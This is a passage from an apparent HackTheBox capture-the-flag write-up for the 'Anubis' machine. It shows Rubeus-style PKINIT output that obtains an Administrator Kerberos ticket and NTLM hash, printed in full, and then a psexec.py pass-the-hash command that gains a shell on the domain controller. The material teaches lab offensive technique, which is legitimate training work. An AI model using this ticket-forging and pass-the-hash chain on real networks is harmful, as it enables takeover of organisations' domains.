```

[*] Using PKINIT with etype rc4_hmac and subject: CN=Diego Cruz, OU=MainOffice, DC=windcorp, DC=htb 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'windcorp.htb\Administrator'
[*] Using domain controller: fe80::e14a:3283:eeca:a06f%12:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName              :  krbtgt/windcorp.htb
  ServiceRealm             :  WINDCORP.HTB
  UserName                 :  Administrator
  UserRealm                :  WINDCORP.HTB
  StartTime                :  3/14/2022 6:13:08 PM
  EndTime                  :  3/15/2022 4:13:08 AM
  RenewTill                :  3/21/2022 6:13:08 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  oOMgkwH+q+tnbvLE700kPA==
  ASREP (key)              :  317D3212FF750F7A74A404A6AF60B249

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 3CCC18280610C6CA3156F995B5899E09
```
### Getting Root using psexec
Since we've got Hash of `Administrator` which is domain admin, we can try using it using `psexec.py`:
```
luka@kali:~/htb/anubis$ psexec.py -hashes 3CCC18280610C6CA3156F995B5899E09:3CCC18280610C6CA3156F995B5899E09 administrator@10.10.11.102 cmd.exe
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
```
